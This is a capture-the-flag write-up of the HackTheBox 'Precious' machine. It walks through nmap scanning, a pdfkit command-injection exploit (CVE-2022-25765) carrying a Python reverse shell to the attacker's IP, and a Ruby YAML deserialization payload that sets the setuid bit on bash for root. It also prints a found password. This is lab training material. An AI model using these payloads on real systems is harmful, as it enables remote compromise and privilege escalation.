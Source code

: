 ```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://user-images.githubusercontent.com/95465072/209340923-763cc8d2-e9fa-4afb-b2c5-3b7edc1b0851.png"> Precious  | HackTheBox | Easy
date: 2022-10-21 00:00:02 +730
categories: [Write Up, HackTheBox]
tags: [pdfkit, web, http, hackthebox, ctf, easy, walkthrough, precious] # TAG names should always be lowercase


---
```


-------------------


<img width="590" alt="precious-htb" src="https://user-images.githubusercontent.com/95465072/208431959-7e9254d5-7d6b-46f5-8e5f-a257729a6eb2.png">


[HackTheBox / Precious - machine!](https://app.hackthebox.com/machines/513)

-------------------


## Enumeration {nmap}

```sh
sudo nmap -sV -sC <target-ip>
```

### Result:
```
┌──(root㉿kali)-[/home/local_host/Desktop/machines/precious-HTB]
└─# nmap -sV -sC 10.10.11.189                 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-10 08:28 EST
Nmap scan report for 10.10.11.189
Host is up (0.51s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.86 seconds
```

## Web Reconnaissance

So Let’s first enumerate port 80. The index page looks like this. Page source contains nothing useful.

![80-precious](https://user-images.githubusercontent.com/95465072/207928050-7eb4dcda-200c-49f3-99db-6337026dd3ca.png)




                                                                         

The web server appears to offer a service that converts web pages into PDF files. Let’s test this functionality out.

![1_rQGaBrXKGZtnBwTeLP5tZg.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008582533/4b8b101e-f65a-451c-94c7-087c81493802.webp?auto=compress,format&format=webp)

```sh
python3 -m http.server --bind 127.0.0.1 80
```
Once your server is running, go back to precious.htb and enter the IP address and port number your server is running on, and click submit. As expected, a pdf file should be downloaded to your machine. Mine looks like this:

![1_7Q3i6kaKvTVB2OKarJqyww.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008594683/5db20699-5474-4b4b-a669-755ffc2b6ec6.webp?auto=compress,format&format=webp)

####   Let's check the metadata of this!!
```
┌──(root㉿kali)
|
└─# exiftool 61fs66gu9di2n46jugnn8n21hfgfj4fg.pdf
ExifTool Version Number         : 12.51
File Name                       : 61fs66gu9di2n46jugnn8n21hfgfj4fg.pdf
Directory                       : .
File Size                       : 18 kB
File Modification Date/Time     : 2022:12:10 08:35:39-05:00
File Access Date/Time           : 2022:12:10 08:35:52-05:00
File Inode Change Date/Time     : 2022:12:10 08:35:39-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```           
What’s interesting to us here is that the file is generated by **pdfkit v0.8.6.** a PDF document generation library. Doing a quick google search looking for any known vulnerabilities we find ```CVE-2022–25765```


## Exploit

### Payload
```sh
http://xx.xx.xx.xx/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.af_inet,socket.sock_stream);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```


### Listener 
```sh
nc -lnvp 9001
```

![1_eKwh6KNdXAW8NTLaMU-TZA.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008670007/93dff2e1-b8e9-4ff7-9836-1f5b6d50b9e8.webp?auto=compress,format&format=webp)

Looking around a bit more, we find a file in /home/ruby/.bundle directory called config. Displaying the contents of config reveals the password for user henry

## Foothold

As you can see, we managed to log into the server as the user ruby. Navigating to the /home directory, we find two directories. One for our ruby user, and one for a user called henry. Inside henry’s directory we can see a file called user.txt. That’s got to be our first flag. Unfortunately, we can’t access it yet



![1_T9L8TuHDBNYhsugJctzCoA.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008738144/e4710698-d59a-4b61-9153-c8edfb8d4f73.webp?auto=compress,format&format=webp)

instead we got password for henry's account ```Q3c1AqGHtoI0aXAYFH```

```sh
ssh henry@<ip-addr>
```

## Privilege Escalation:

![1_Lw_aaW0-w4GS1g0MSqtZwg.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008817753/c0b8f3f5-b688-4c8d-8773-f6e8bf40d31e.webp?auto=compress,format&format=webp)

It appears that henry can run the file update_depencies.rb **as root**. Use cat to take a look at the file

![1_q5yGqzQ3IUSLAvZ4H2TL9Q.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008831300/5446402e-3683-4097-9ddc-95261d086fbb.webp?auto=compress,format&format=webp)

[click here to copy the payload](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565)
```
create a file called dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```

> **note** : Replace the id with ```chmod u+s /bin/bash```
 
Run the file
```sh
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
![1__MagsGJeINwnESjf6izVUw.webp](https://cdn.hashnode.com/res/hashnode/image/upload/v1670008869699/1561e141-d42b-4bcb-b571-1d08c7ef21f3.webp?auto=compress,format&format=webp)

&nbsp;
&nbsp;

# Congragulations You got the root access!!

**USER FLAG**
```75fb440c0ef7fd22c28f************```


**ROOT FLAG**
```6e8dfa9c1c1968383f0c************```

---------------------
